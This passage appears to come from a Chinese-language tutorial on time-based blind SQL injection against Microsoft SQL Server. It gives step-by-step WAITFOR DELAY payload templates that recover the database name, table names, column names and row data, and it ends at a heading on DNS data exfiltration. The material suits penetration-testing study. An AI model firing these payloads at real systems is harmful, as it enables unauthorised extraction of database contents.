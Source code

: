 #### (4). 时间盲注

##### a. 涉及函数

> ``WAITFOR DELAY 'h:m:s'``、ascii()、substring()

##### b. 注入流程

###### ①获取数据库信息

###### ②库名长度、库名

```sql
#1.	判断数据库名长度
	id=1 if(len(db_name()) >m) waitfor delay '0:0:5' --+	#m表示长度
 
#2. 暴力破解数据库名
	id=1 if(ascii(substring((select db_name()),n,1))=m) waitfor delay '0:0:5' --+	#n表示第几个字符，m表示ascii范围
```

###### ③表名长度、表名

```sql
#1. 判断第一张表名长度
	1 if(len((select top 1 table_name from information_schema.tables))>m) waitfor delay '0:0:5' --+		#m表示长度
#2. 暴力破解第一张表名
	1 if(ascii(substring((select top 1 table_name from information_schema.tables),n,1))=m) waitfor delay '0:0:5' --+	#n表示第几个字符，m表示ascii范围
```

###### ④字段名长度、字段名

```sql
#1. 判断第一张表第一个字段名长度
1 if(len((select top 1 column_name from information_schema.columns))>m) waitfor delay '0:0:5' --+		#m表示长度
#2. 暴力破解第一张表第一个字段名
1 if(ascii(substring((select top 1 column_name from information_schema.columns),n,1))=m) waitfor delay '0:0:5' --+		#n表示第几个字符，m表示ascii范围
```

###### ⑤具体数据

```sql
#1. 判断第一行第一个字段的数据长度
1 if(len((select top 1 id from emails))>m) waitfor delay '0:0:5' --+	#m表示长度
#2. 暴力破解数据内容
```

#### (5). 数据外带

****

##### a. DNS
